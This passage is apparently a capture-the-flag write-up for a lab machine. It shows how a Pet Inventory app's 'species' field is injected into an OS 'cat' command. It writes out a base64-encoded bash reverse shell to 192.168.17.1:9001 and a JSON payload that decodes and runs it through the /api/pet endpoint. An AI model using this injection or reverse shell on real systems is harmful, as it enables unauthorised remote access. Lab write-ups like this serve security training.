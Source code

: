 ### Foothold
By inspecting the source we can see a vulnerable function in this Pet Inventory app. It looks like the added pet will parse it's characteristics by using the os command `cat` to "load" the content of a predefined file.

![[petshop-source.png]]
![[car-dirlisting.png]]

But it is not done in a secure way. The source just concatenates the cat command with whatever is received as a "species".

So now we have two opportunities. Either we hook ourselfs in with a intercepting proxy like BurpSuite or we use curl. As a proof of concept I will use curl.

But first let's see what we need to provide to the service by looking at developer console of firefox when adding a pet.

![[firefox-devtools.png]]
![[firefox-devtools-2.png]]

First of all it is a POST request to http://pets.devzat.htb/api/pet and it needs to contain a json body in this format:

```json
{
	"name": "My Test Cat",
	"species": "cat"
}
```

As we learned from the static code analysis we can inject into *species*. So we will. As I mentioned you could do that with Burp, but I will just you curl.

#### Payload

To have a nice uncomplicated payload which will not break when sent through the API I constructed a bash reverse shell and base64 encoded it like so:

```bash
> ifconfig vmnet1
vmnet1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.17.1  netmask 255.255.255.0  broadcast 192.168.17.255
        inet6 fe80::250:56ff:fec0:1  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:c0:00:01  txqueuelen 1000  (Ethernet)
        RX packets 120272  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 78997  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

> echo "bash -i  >& /dev/tcp/192.168.17.1/9001 0>&1 " | base64 -w 0
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNy4xLzkwMDEgMD4mMSAK%    
```

So the payload will be 
```json
{
	"name": "my pwn cat",
	"species": "cat; echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNy4xLzkwMDEgMD4mMSAK | base64 -d | bash"
}
```

